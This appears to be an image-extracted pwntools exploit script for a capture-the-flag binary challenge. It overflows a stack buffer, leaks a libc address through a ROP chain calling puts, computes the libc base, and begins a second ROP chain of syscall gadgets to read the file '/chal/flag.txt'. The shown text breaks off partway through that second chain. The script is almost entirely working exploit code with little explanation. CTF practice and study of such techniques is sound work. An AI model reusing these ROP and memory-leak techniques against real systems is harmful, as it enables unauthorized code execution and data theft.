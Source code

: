 ```python
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

offset = 56
pop_rdi = 0x00000000004019db
flag_path = '/chal/flag.txt'

io = start()

log.info(f"opening msg: {repr(io.recv())}")

# puts(__libc_start_main@got)
pl = b'A'*offset
pl += p64(pop_rdi)
pl += p64(exe.got['__libc_start_main'])
pl += p64(exe.plt['puts'])

pl += p64(exe.sym['main'])

io.sendline(pl)

# parse leak
res = io.recvuntil(b'\n')
lsm = u64(res[:-1].ljust(8, b'\x00'))
libc.address = lsm - libc.sym['__libc_start_main']
log.info(f'__libc_start_main: {hex(libc.sym["__libc_start_main"])}')

log.info(f"opening msg: {repr(io.recv())}")

# writeable area in the executable's .data section
writeable_buf = 0x404010

# libc ropgadgets
pop_rdi = libc.address + 0x000000000002155f
pop_rsi_pop_r15 = 0x00000000004019d9
pop_rdx = libc.address + 0x0000000000001b96
pop_rax = libc.address + 0x00000000000439c8
push_rax_pop_rbx = libc.address + 0x0000000000052240
mov_rdi_rbx_jne_pop_rbx = libc.address + 0x000000000019a689
syscall = libc.address + 0x00000000000d2975
test_edx_edx_jne = libc.address + 0x000000000008331f

# gadgets in different places on my local libc
if args.LOCAL:
    pop_rax = libc.address + 0x0000000000043a78
    push_rax_pop_rbx = libc.address + 0x00000000000522e0
    syscall = libc.address + 0x00000000000d29d5
    test_edx_edx_jne = libc.address + 0x000000000008338f
    mov_rdi_rbx_jne_pop_rbx = libc.address + 0x000000000019a8f9

pl = b'A'*offset

# read(0, writeable_buf, len(flag_path)) (0 is stdin)
pl += p64(pop_rdi)
pl += p64(0x0)
pl += p64(pop_rsi_pop_r15)
pl += p64(writeable_buf)
pl += b'B'*8
pl += p64(pop_rdx)
```